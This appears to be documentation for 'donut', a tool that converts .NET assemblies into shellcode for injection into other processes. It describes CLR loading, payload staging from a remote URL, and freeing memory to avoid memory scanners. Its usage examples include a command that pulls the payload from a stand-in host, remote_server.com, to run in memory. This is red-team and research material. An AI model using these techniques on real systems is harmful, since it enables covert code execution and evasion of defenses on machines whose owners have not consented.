 ```Shortly before publishing donut, Odzhan and I became aware of another team working on a shellcode generator for .NET Assemblies. They were at the same stage of their project at us. We both agreed that whomever of us published first would ensure that the other received due credit for their work. As soon as they publish their tool, we will update this article with a link.```
The first action that donut's shellcode takes is to load the CLR. Unless the user specifies the exact runtime version to use, v4.0.30319 of the CLR will be used by default, which supports the versions 4.0+ of .NET. If the attempt to load a specific version fails, then donut will attempt to use whichever one is avialable on the system. Once the CLR is loaded, the shellcode creates a new Application Domain. At this point, the .NET Assembly payload must be obtained. If the user provided a staging URL, then the Assembly is downloaded from it. Otherwise, it is obtained from memory. Either way, it will loaded into the new AppDomain. After the Assembly is loaded but before it is run, the decrypted copy will be released and later freed from memory with VirtualFree to deter memory scanners. Finally, the Entry Point specified by the user will be invoked along with any provided parameters.

If the CLR is already loaded into the host process, then donut's shellcode will still work. The .NET Assembly will just be loaded into a new Application Domain within the managed process. .NET is designed to allow for .NET Assemblies built for multiple versions of .NET to run simultaneously in the same process. As such, your payload should always run no matter the process's state before injection.

## Shellcode Generation

The logic above describes how the shellcode generated by donut works. That logic is defined in payload.exe. To get the shellcode, exe2h extracts the compiled machine code from the .text segment in payload.exe and saves it as a C array to a C header file. donut combines the shellcode with a Donut Instance (a configuration for the shellcode) and a Donut Module (a structure containing the .NET assembly, class name, method name and any parameters).

# Using Donut

Donut can be used as-is to generate shellcode from arbitrary .NET Assemblies. Both a Windows EXE and a Python (Python planned for v1.0) script are provided for payload generation. The command-line syntax is as described below.

```  
 usage: donut [options] -f <.NET assembly> -c <namespace.class> -m <Method>

       -f <path>            .NET assembly to embed in PIC and DLL.
       -u <URL>             HTTP server hosting the .NET assembly.
       -c <namespace.class> The assembly class name.
       -m <method>          The assembly method name.
       -p <arg1,arg2...>    Optional parameters for method, separated by comma or semi-colon.
       -a <arch>            Target architecture : 1=x86, 2=amd64(default).
       -r <version>         CLR runtime version. v4.0.30319 is used by default.
       -d <name>            AppDomain name to create for assembly. Randomly generated by default.

 examples:

    donut -a 1 -c TestClass -m RunProcess -p notepad.exe -f loader.dll
    donut -f loader.dll -c TestClass -m RunProcess -p notepad.exe -u http://remote_server.com/modules/
```

## Generating Shellcode

To generate shellcode with donut, you must specify a .NET Assembly, an Entry Point, and any parameters that you wish to use. If your Assembly uses the *Test* namespace and includes the *Program* class with the *Main* method, then you would use the following options:

```
donut.exe -f Test.exe -c Test.Program -m Main
```

To generate the same shellcode for 32-bit processes, use the '-a' option:

```
donut.exe -a 1 -f Test.exe -c Test.Program -m Main
```

```